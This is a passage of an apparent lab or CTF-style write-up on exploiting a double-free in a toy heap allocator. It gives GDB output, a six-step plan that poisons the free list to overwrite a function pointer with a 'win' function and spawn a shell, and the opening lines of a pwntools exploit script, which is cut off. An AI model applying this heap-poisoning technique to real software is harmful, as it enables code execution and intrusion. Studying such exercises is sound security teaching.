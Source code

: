 5.  **Second `free` Call (Vulnerability Moment):** Now let's trigger the vulnerability and free the same chunk again.

    ```
    > free 0
    ```

    GDB will stop again. Now is the most critical moment:

    ```gdb
    # Notice that g_head and c show the same address.
    (gdb) p g_head
    $1 = (Chunk *) 0x405000
    (gdb) p c
    $2 = (Chunk *) 0x405000

    # Let's step one line forward in the my_free function (n command).
    (gdb) n

    # Now let's check the chunk's content again.
    (gdb) x/gx c
    0x405000:       0x0000000000405000
    ```

    **Here's the Vulnerability!** As you can see, the first 8 bytes of the chunk at address `0x405000` now point to itself (`0x405000`). We've created a loop in the free list. The chunk now points to itself. This causes subsequent `alloc` calls to always return the same address, which forms the basis of the UAF attack.

#### 3. Exploitation Logic

1.  **Preparation:** Allocate two chunks (`A` and `B`).
2.  **Create Dangling Pointer:** Free `A`. The pointer in the `slots` array still holds `A`'s address (UAF condition).
3.  **Poison the Free List:** Use the `write` command with `A`'s index to write our target address `&gTarget.fn` over the first 8 bytes of the freed `A` chunk (over the pointer to the next element in the free list).
4.  **Deceive the Heap:** Now call `alloc` twice. The first one returns `A` to us, the second one follows our poisoned "next element" pointer and returns **`&gTarget.fn`** as a chunk.
5.  **Take Control:** Now we have a chunk index pointing to `gTarget.fn`. We write the address of the `win` function to this index using the `write` command.
6.  **Get the Shell:** We call the `call` command to execute our manipulated `gTarget.fn()` and get the shell.

### Complete Exploit Code (`exploit.py`)

Here is the exploit script written with `pwntools` for this interactive program.

```python
from pwn import *
import re
import subprocess

# Start the process with pwntools
p = process("./compiled/vulnerable_code")

# Automatic address finding (recommended method)
try:
    # Find addresses automatically using objdump
    result = subprocess.run(['objdump', '-t', './compiled/vulnerable_code'], 
                          capture_output=True, text=True)
    
```